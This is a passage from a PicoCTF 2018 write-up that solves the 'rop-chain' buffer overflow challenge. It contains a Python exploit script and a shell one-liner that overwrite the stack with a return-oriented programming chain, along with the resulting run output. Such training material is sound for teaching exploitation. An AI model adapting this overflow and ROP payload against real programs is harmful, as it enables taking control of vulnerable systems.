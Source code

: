 Now, let's write some code to fill in our `buf` for us. It'll be 28 bytes, followed by the stack layout shown above, where all the 32-bit values will be written in little-endian format.

```python
#!/usr/bin/env python
# works with python2 or python3
import struct, os
os.write(1, b"U"*28 + struct.pack("<7L",
                      0x080485cb, # win_function1
                      0x080485d8, # win_function2
                      0x080485d6, # gadget
                      0xBAAAAAAD, # win_function2 arg
                      0x0804862b, # flag
                      0x55555555, # return add for flag (DNC)
                      0xDEADBAAD  # flag arg
                      ) + b"\n") # don't forget to add a newline for gets()
```

Finally, let's try it out by running the problem in `/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47` on the shell server:

```
$ cd /problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47
$ python -c 'import struct,os; os.write(1, b"U"*28 + struct.pack("<7L", 0x080485cb, 0x080485d8, 0x080485d6, 0xBAAAAAAD, 0x0804862b, 0x55555555, 0xDEADBAAD) + b"\n")' | ./rop
Enter your input> picoCTF{===REDACTED===}
Segmentation fault (core dumped)
```
{:.contains-term}

Wow, that was more work than I thought - Good job getting all the way through it! As a quick note, if you wanted to avoid the gadget, you *could* return directly into `flag`, and have `0xDEADBAAD` immediately after `0xBAAAAAAD` - But it **only** works in this specific instance because we don't care about the return address of `flag` and there is exactly 4 extraneous bytes on the stack.

Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/Hacking-101/PicoCTF-2018-Binary-Exploits.md %}) to continue with the next challenge.